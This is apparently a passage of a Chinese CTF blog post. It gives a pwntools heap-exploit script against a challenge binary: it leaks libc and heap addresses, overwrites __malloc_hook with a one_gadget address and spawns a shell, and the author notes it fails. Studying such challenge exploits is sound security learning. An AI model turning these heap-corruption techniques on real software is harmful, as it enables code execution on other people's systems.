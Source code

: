 ```python
    r.recvuntil("Index:")
    r.sendline(index)
    r.recvuntil("to change?")
    r.send(char)
    r.send(change)
    r.recv()

r=process("./pwn")
#gdb.attach(r)
pause()

new_note("128",b"a"*0x10+b"\x01",b"a"*128)
new_note("103",b"b"*0x10+b"\x01",b"b"*16)
new_note("103",b"c"*0x10+b"\x01",b"c"*16)
new_note("103",b"d"*0x10+b"\x01",b"d"*16)
del_note(0)
del_note(1)
del_note(3)
del_note(2)

change_note(0,b"\x00",b"\x01")
change_note(3,b"\x00",b"\x01")
show_note(0)
r.recvuntil("Content:")
base_add=u64(r.recv(6).ljust(8,b"\x00"))-0x3C4B78
show_note(3)
r.recvuntil("Content:")
heap_add=u64(r.recv(6).ljust(8,b"\x00"))-0x10a0
del_note(3)

print(hex(base_add))
print(hex(heap_add))

libc=ELF("libc-2.23.so")

mch_add=base_add+libc.sym["__malloc_hook"]-0x10-0x13
oneg_add=base_add+0xf1147

print(hex(mch_add))
print(hex(oneg_add))

new_note("103",b"mallochook",p64(mch_add))
new_note("103",b"c",b"c"*16)
new_note("103",b"d",b"c"*16)
#pause()
new_note("103",b"onegarget",b"\x00"*0x13+p64(oneg_add))
del_note(1)

r.sendline(b"1")
r.sendline(b'200')

r.interactive()
```

但是...最后就在这个地方卡住了,one_gadget搜出来的四个地址没一个能用的.看了下样题附的exp,发现他和我用的是同一个思路,但我的脚本就是过不了,就很怪...这次用上了docker,应该也不是环境的问题了



这篇文章就当成补上上周的周报吧(
